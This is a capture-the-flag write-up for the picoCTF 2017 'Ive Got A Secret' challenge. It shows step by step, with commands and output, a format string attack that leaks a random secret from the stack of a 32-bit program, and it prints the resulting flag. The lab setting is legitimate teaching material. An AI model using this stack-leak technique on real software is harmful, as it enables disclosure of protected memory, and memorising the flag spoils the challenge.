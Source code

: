 **Challenge name:** Ive Got A Secret  
**Description:** Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:58570.  
**Hint:** This is a beginning format string attack.    
**File(s) provided:**  
- secret (32-bit ELF)
- secret.c (source code)
----
# Step 0: Recon
The program accepts input twice; the first time it just repeats the input, the second time it will compare it to a random value. If the guess is correct, the flag is printed. We will use the format string vulnerability in the first stage to leak the value needed for the second.

# Step 1: Confirm the format tring vulnerability
```bash
# python -c 'print "%08x."*12' | ./secret
Give me something to say!
00000040.f77575a0.08048792.00000001.ff9db254.4a3e03ac.00000003.f77573dc.ff9db1c0.00000000.f75bc276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
```
Note: we read 12 stack values, because the input buffer is 64 bits and we're using 5 bytes per stack value. It is possible to be more efficient (just using ```%x```) and read more values, but it is unlikely that we need to.

# Step 2: Find secret value
If we run the script a couple times, we should be able to see which value is random:
```bash
# for i in {1..10}; do python -c 'print "%08x."*12' | ./secret; done
Give me something to say!
00000040.f779c5a0.08048792.00000001.ff857c54.85278f47.00000003.f779c3dc.ff857bc0.00000000.f7601276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f775f5a0.08048792.00000001.ffdd0814.47e3d221.00000003.f775f3dc.ffdd0780.00000000.f75c4276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f76f75a0.08048792.00000001.ffd8fa04.a4d7c407.00000003.f76f73dc.ffd8f970.00000000.f755c276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f76b65a0.08048792.00000001.ffe24ea4.aa595cdc.00000003.f76b63dc.ffe24e10.00000000.f751b276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f76ef5a0.08048792.00000001.ffa3e8c4.34aeca22.00000003.f76ef3dc.ffa3e830.00000000.f7554276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f77a85a0.08048792.00000001.ffbb6114.94ffefe8.00000003.f77a83dc.ffbb6080.00000000.f760d276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f77675a0.08048792.00000001.fffa8674.ff3453d7.00000003.f77673dc.fffa85e0.00000000.f75cc276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f77375a0.08048792.00000001.ff99d884.77e2e584.00000003.f77373dc.ff99d7f0.00000000.f759c276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f76c15a0.08048792.00000001.ffc37314.080bc9b6.00000003.f76c13dc.ffc37280.00000000.f7526276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
Give me something to say!
00000040.f774c5a0.08048792.00000001.ffc6ec94.ce0b466a.00000003.f774c3dc.ffc6ec00.00000000.f75b1276.00000001.
Now tell my secret in hex! Secret: As my friend says,"You get nothing! You lose! Good day, Sir!"
```
It looks like the 6th value changes every time we run it, so it is likely to be the value we need.
# Step 3: Get flag
Let's make input that makes it easier for us to extract the secret value:  ```%x%x%x%x%x....%08x```  
- 5 ```%x``` because we don't care about the first 5 values
- a couple of dots to mark the separation
- ```%08x``` to pad the secret value with leading zeroes if needed  

Connect to the service, give it the input above, and copy/paste the value after the dots:
``` bash
# nc shell2017.picoctf.com 58570
Give me something to say!
%x%x%x%x%x....%08x
40f7fc7c2080487921ffffdd34....7903523c
Now tell my secret in hex! Secret: 7903523c
326edd4743c7046d72d29e911ae8a412
Wow, you got it!
```
# Step 4: Sidenote
If you want to use python to generate the first input and manually enter the second one, you'll need to keep the pipe open. That can be done as follows:
``` bash
# cat <(python -c 'print "%08x."*6') - | ./secret
```
